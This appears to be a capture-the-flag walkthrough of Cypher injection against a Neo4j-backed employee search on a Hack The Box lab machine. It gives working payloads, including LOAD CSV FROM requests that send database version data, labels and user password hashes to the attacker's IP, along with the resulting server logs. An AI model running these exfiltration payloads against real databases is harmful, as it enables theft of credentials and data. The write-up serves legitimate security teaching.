



The query language used to query a neo4j database is called Cypher. It is used to interact with the graph data stored in Neo4j, allowing users to create, retrieve, update, and delete data using a declarative syntax that is similar to SQL.

If I think that the employee DB is likely hooked up to neo4j, then it’s possible that I could do a cypher injection against it.

The neo4j developer site has [this post](https://neo4j.com/developer/kb/protecting-against-cypher-injection/) about Cypher injection. [This page](https://neo4j.com/developer/cypher/querying/) talks about creating basic queries with Cypher. Or we can use this [Tool](https://github.com/sectroyer/cyphermap) to automate the process.

### Example Scenario

We have a search bar where it shows the actual employees, if we put a letter "a" and search, it populates:



### Injection POC

The query the page is making to get a list of employees by search probably would look something like:

```cypher
MATCH (e:employee) WHERE e.name CONTAINS '{name}' RETURN e
```

That would be grabbing `employee` nodes where the name contains our input and returning the nodes.

If that’s the case, I’ll try to see if I can craft a query that loads all the rows. What about `name=0xdf' or '1'='1`? That would make the query:

```cypher
MATCH (e:employee) WHERE e.name CONTAINS '0xbara' or '1'='1' RETURN e
```

It loads 5 rows, the same as an empty search:



Given that’ none of those have “0xbara” in them, that’s proof of injection!

### Extracting Information

The Hacktricks page on [Cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels) has a bunch of good payloads to use from here. It’s easier to exfil the data base to my server than to get it formatted correctly to go onto the webpage. I’ll make use of `LOAD CSV FROM` to generate out going requests.

I’ll start with this payload to get version information:

```
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.6/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

I’ve updated it to use my IP, and on sending it, I get results:

```
10.10.11.210 - - [24/Apr/2023 15:32:14] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [24/Apr/2023 15:32:14] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

I’ll update the query on the page to get the labels:

```
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.6/?l='+label as l RETURN 0 as _0//
```

There are two hits at the server, `user` and `employee`:

```
10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=employee HTTP/1.1" 200 -
```

One neat thing about Cypher is that I can chain queries together, like in [this example](https://pentester.land/blog/cypher-injection-cheatsheet/#clause-composition):

```
MATCH (john:Person {name: 'John'}) MATCH (john)-[:FRIEND]->(friend) RETURN friend.name AS friendName
```

That is how [this example](https://pentester.land/blog/cypher-injection-cheatsheet/#out-of-band--blind-using-load-csv) works to extract the keys for `user`:

```
' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.14.6/?'+k[0] as b return b//
```

It’s getting the user object, and then the keys for it (saved in `k`), and then sending a query to me with `k[0]`:

```
10.10.11.210 - - [24/Apr/2023 16:06:50] "GET /?password HTTP/1.1" 200 -
```

I am not able to find a way to get all the keys in one query, but I’ll up `k[0]` to `k[1]` and get:

```
10.10.11.210 - - [24/Apr/2023 16:07:34] "GET /?username HTTP/1.1" 200 -
```

`k[2]` doesn’t returns anything.

To read data, I’ll use the same pattern but this time generate a string for each node:

```
' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.14.6/?'+d as a return a //
```

A single query sends back two requests:

```
10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
```

Both of these are non-salted SHA256 hashes, and both are already cracked in [CrackStation](https://crackstation.net/):



References: 
- https://0xdf.gitlab.io/2023/08/26/htb-onlyforyou.html#cypher-injection
- https://app.hackthebox.com/machines/540